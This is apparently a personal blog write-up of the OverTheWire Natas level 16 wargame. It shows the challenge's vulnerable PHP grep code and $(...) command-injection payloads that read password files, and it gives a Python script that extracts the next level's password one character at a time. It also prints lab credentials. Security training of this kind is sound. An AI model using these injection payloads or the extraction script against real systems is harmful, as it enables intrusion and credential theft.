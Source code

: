 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 16"
date:   2015-09-25
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 16 > Level 17

![natas16-01](/img/otw-natas/natas16-01.png)

```
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This challenge appears identical to [Natas 10]({% post_url 2015-09-19-otw-natas-10 %}) with the exception of quotes around `key` in the `grep` statment, and the banning of the double-quote character from the input.  After a little thought, the most obvious capability missed by the filter is the ability to perform command substitution using `$(cmd)`.

I'll cover this in the order of what I found and what I tried. A journey, not unlike Lord of the Rings but also nothing like Lord of the Rings.

The first thing I noticed is that we can view the entire contents of the dictionary if we use a command which returns nothing to stdout. A command not in PATH is a good example of this, as the error message is displayed to the user via stderr. This isn't of much consequence now but it will be important later.

![natas16-02](/img/otw-natas/natas16-02.png)

The dictionary is of a decent size. If we search for the whatever the first unknown character of the password is, there is very likely only one letter which appears in every result. It would not be hard to find and we could repeat this step for each character in the password.

A proof of concept using the first character for natas16, which we know.  Search for `$(head -c 1 /etc/natas_webpass/natas16)`.

![natas16-03](/img/otw-natas/natas16-03.png)

The fact the letter 'W' alone is a result helps considerably. Unforunately the `grep` hardcoded into the page is a case insensitive search. Worse yet, numbers do not appear in the dictionary.

![natas16-04](/img/otw-natas/natas16-04.png)

That idea is dead.

We need a way to get a yes/no answer to the question of whether a candidate character appears in a given position of the password. Recall the first thing we noticed, that we can make commands with no output.  The idea:

Prepend a `grep` to a prefix-free known word that appears in the dictionary, `$(<grep>)<word>`.  If our `grep` does not match, it will return nothing, the search will be only for `<word>`, and we'll see a result.  If it does match, the password will be returned by the `grep` command, and the search will be for `<password><word>` which will fail and nothing will be returned.  By prefix-free I mean don't use 'hat' because 'what' is also in the dictionary which will break our logic.

POC this using the dictionary word 'penetration' and the password for natas16 which begins with 'W.'

Search for 'W' which matches our `grep` and should return no result from their `grep`: 

```
$(grep ^W /etc/natas_webpass/natas16)penetration
```

![natas16-05](/img/otw-natas/natas16-05.png)

Search for 'h', which does not match our `grep` resulting in a match with their `grep`: 

```
$(grep ^h /etc/natas_webpass/natas16)penetration
```

![natas16-06](/img/otw-natas/natas16-06.png)

That's it! Modify the code from [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to suit the new payload.

```
import socket

HOST = "natas16.natas.labs.overthewire.org"
PORT = 80
HEAD = """GET /?needle=$(grep%20^{c}%20/etc/natas_webpass/natas17)penetration&submit=Search HTTP/1.1
Host: natas16.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==
Content-Type: application/x-www-form-urlencoded\r\n\r\n"""
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas16(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    s.send(HEAD.format(c=p))

    r = s.recv(8192)
    s.close()

    if "penetration" not in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas16(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success!  This time an action shot. It's not very pretty, but when the output from each iteration is small and the process relatively slow, seeing each tick go by is helpful for gauging speed and correct operation.

![natas16-07](/img/otw-natas/natas16-07.png)

Eventually, 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
